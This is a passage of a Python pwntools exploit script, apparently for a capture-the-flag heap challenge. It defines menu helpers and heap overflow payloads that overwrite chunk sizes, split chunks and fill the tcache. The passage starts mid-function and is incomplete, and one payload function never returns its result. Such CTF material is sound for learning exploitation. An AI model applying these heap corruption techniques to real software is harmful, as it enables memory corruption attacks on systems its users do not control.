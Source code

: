 ```python
                        c
                    """)
        elf = ELF(prog)

    else:
        p = process(prog)
        elf = p.elf

    return p

def _create():
    p.sendlineafter("): ", "c")

def _delete(id):
    p.sendlineafter("): ", "d")
    p.sendlineafter("id: ", id)

def _set(id, question):
    p.sendlineafter("): ", "s")
    p.sendlineafter("id: ", id)
    p.sendlineafter("question: ", question)

def _ask(id, flag):
    p.sendlineafter("): ", "a")
    p.sendlineafter("id: ", id)

    # if the flag is set, return the output
    if (not flag): 
        return ""

    p.recvuntil(": '")
    return p.recvuntil("'", drop=True)
####################################

####################################
#                                  #
def _overwrite_size(size):
    payload = b""
    payload += b"\x00" * 0x1C
    payload += size
    payload += b"\x00" * 0x3

    return payload

def _split_chunk():
    # Split the second question into two smaller chunks with a heap overflow
    payload = b""
    payload += b"\x00" * 0x1C   # padding to change the size of the next buffer
    payload += b"\x11"          # size of the next buffer
    payload += b"\x00" * 0x3    # padding as the set function writes a newline into the buffer

    payload += b"\x00" * 0x1C
    payload += b"\x10"
    payload += b"\x00" * 0x3

def _flood_tcache():
    _create()
    _create()
    _create()
    _create()
    _create()
    _create()

```
